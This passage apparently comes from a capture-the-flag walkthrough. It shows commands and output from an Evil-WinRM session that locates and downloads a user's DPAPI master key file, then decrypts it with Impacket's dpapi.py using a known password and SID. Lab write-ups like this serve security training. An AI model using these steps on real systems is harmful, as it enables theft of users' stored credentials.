#### Locating and Downloading the Master Key
```
*Evil-WinRM* PS C:\Users\steph.cooper> gci -path c:\users\steph.cooper -force -recurse -file -ea silentlycontinue | Where-Object { $_.FullName -match '\\Protect\\' }

    Directory: C:\users\steph.cooper\AppData\Roaming\Microsoft\Protect

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:40 AM             24 CREDHIST
-a-hs-          3/8/2025   7:40 AM             76 SYNCHIST

    Directory: C:\users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:40 AM            740 556a2412-1275-4ccf-b721-e6a0b4f90407
-a-hs-         2/23/2025   2:36 PM             24 Preferred


*Evil-WinRM* PS C:\Users\steph.cooper> copy C:\users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 .\mkey
*Evil-WinRM* PS C:\Users\steph.cooper> attrib -s -h .\mkey
*Evil-WinRM* PS C:\Users\steph.cooper> download mkey

Info: Downloading C:\Users\steph.cooper\mkey to mkey
Info: Download successful!
```

### DPAPI Master Key Decryption

Now we can decrypt the master key using the user's password:

```bash
dpapi.py masterkey -file mkey -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password 'ChefSteph2025!'
```

**Results:**

```bash
Impacket v0.13.0.dev0+20250909.125012.082dca34 - Copyright Fortra, LLC and its affiliated companies

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```
